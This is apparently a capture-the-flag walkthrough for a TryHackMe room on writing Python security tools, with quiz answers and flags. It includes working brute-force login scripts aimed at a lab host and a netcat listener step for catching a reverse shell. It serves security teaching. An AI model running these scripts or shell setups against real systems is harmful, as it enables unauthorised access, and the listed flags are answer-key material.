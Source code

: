 ```yaml
---
title: "[THM] Custom Tooling Using Python"
description: This is a full walkthrough with answers and explanations for the TryHackMe room "Custom Tooling Using Python".
author: hubert_k
date: 2025-04-24 15:00:00 +0800
categories: [THM]
tags: [Security, THM, Walkthrough]
pin: true
math: true
mermaid: true
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/62a7685ca6e7ce005d3f3afe-1743656880330
---
```


> Link to the room: <https://tryhackme.com/room/customtoolingpython>.
{: .prompt-info }

> Remember to start the VM and the Attack Box. Run the command: `echo "VM_IP python.thm" >> /etc/hosts` in the terminal before you start working on the next tasks.
{: .prompt-warning }

## [Task 2] Using a Coding Language for Custom Tooling

#### Does a scripting language perform better than a compiled language? (Yea/Nay)
```text
Nay
```
{: .nolineno }
{: file="Answer:" }

> Scripting languages are generally slower as interpretation only happens at runtime.
{: .prompt-tip }

#### Which compiled language is easy to cross-compile?
```text
Go
```
{: .nolineno }
{: file="Answer:" }

> An advantage of `Go` is : Fast executing and easy cross-compilation.
{: .prompt-tip }

#### Which scripting language is best suited for web-based exploits?
```text
JavaScript
```
{: .nolineno }
{: file="Answer:" }

> `JavaScript` is useful for web-based exploits and widely supported in web applications.
{: .prompt-tip }

---

## [Task 3] Developing a Brute-Forcing Tool

#### What is one of the renowned Python libraries used to send HTTP requests, interact with web applications, and analyse responses?
```text
requests
```
{: .nolineno }
{: file="Answer:" }

> <https://pypi.org/project/requests/>
{: .prompt-tip }

#### What is the flag value after logging in as admin?
```text
THM{Brute_Force_Success007}
```
{: .nolineno }
{: file="Answer:" }

> Create and execute this script on your Attack Box:
{: .prompt-tip }

{% raw %}
```python
import requests

url = "http://python.thm/labs/lab1/index.php"

username = "admin"

# Generating 4-digit numeric passwords (0000-9999)
password_list = [str(i).zfill(4) for i in range(10000)]

def brute_force():
    for password in password_list:
        data = {"username": username, "password": password}
        response = requests.post(url, data=data)
        
        if "Invalid" not in response.text:
            print(f"[+] Found valid credentials: {username}:{password}")
            break
        else:
            print(f"[-] Attempted: {password}")

brute_force()
```
{% endraw %}


#### Can you attempt to log in as Mark, whose password follows a specific pattern? His password consists of the first three characters as digits (000-999) followed by a single uppercase letter (A-Z). What is the flag value?
```text
THM{Brute_Force_Success_Mark001}
```
{: .nolineno }
{: file="Answer:" }

> My script for this task:
{: .prompt-tip }

{% raw %}
```python
import requests
import string

url = "http://python.thm/labs/lab1/index.php"

username = "Mark"

lowercase_alphabet = string.ascii_lowercase

# Generating 3-digit numeric passwords followed by a single uppercase letter (000A-999Z)
password_list = [str(i).zfill(3) + l for i in range(1000) for l in string.ascii_uppercase]

def brute_force():
    for password in password_list:
        data = {"username": username, "password": password}
        response = requests.post(url, data=data)
        
        if "Invalid" not in response.text:
            print(f"[+] Found valid credentials: {username}:{password}")
            break
        else:
            print(f"[-] Attempted: {password}")

brute_force()
```
{% endraw %}

---

## [Task 4] Developing a Vulnerability Scanner

#### How many vulnerabilities will be identified if we use the above scanner.py script with the updated URL `http://python.thm/labs/lab2/departments.php?name=?` (without changing the original code)
```text
0
```
{: .nolineno }
{: file="Answer:" }

> Change the URL in the scanner.py script and run it.
{: .prompt-tip }

#### After tweaking the above script to use the appropriate GET parameter, how many payloads are found? (with changing the original code)
```text
2
```
{: .nolineno }
{: file="Answer:" }

> Change line 18 to `response = requests.get(url, params={"name": payload})`.
{: .prompt-tip }

#### Which of the following is the valid type of vulnerability? Write the correct option only:
`A)` CSRF
`B)` SQL injection
`C)` Prototype Pollution
`D)` XSS

```text
B
```
{: .nolineno }
{: file="Answer:" }

> Result of the script: `Potential SQL injection detected with payload...`
{: .prompt-tip }

#### What is the name of the renowned library that is used to make concurrent requests to an endpoint?
```text
Threading
```
{: .nolineno }
{: file="Answer:" }

>  Running scans sequentially is slow, so we use multi-threading to send multiple requests simultaneously, making our scanner faster and more efficient. For this we can use the `threading` library.
{: .prompt-tip }

---

## [Task 5] Creating a Basic Exploit

#### What is the flag value?
```text
THM{basic_exploit_using_python}
```
{: .nolineno }
{: file="Answer:" }

> `1.` nc -lvnp 4444 `2.` Modify the last script and change the IP to the Attack Box. `3.` Find the file with the flag.
{: .prompt-tip }

---

## [Task 6] 

#### What is the flag?
```text
THM{6470e394cbf6dab6a91682cc8585059b}
```
{: .nolineno }
{: file="Answer:" }

> Modify the last script to use your Attack Box IP, and remember to have open a listener.
{: .prompt-tip }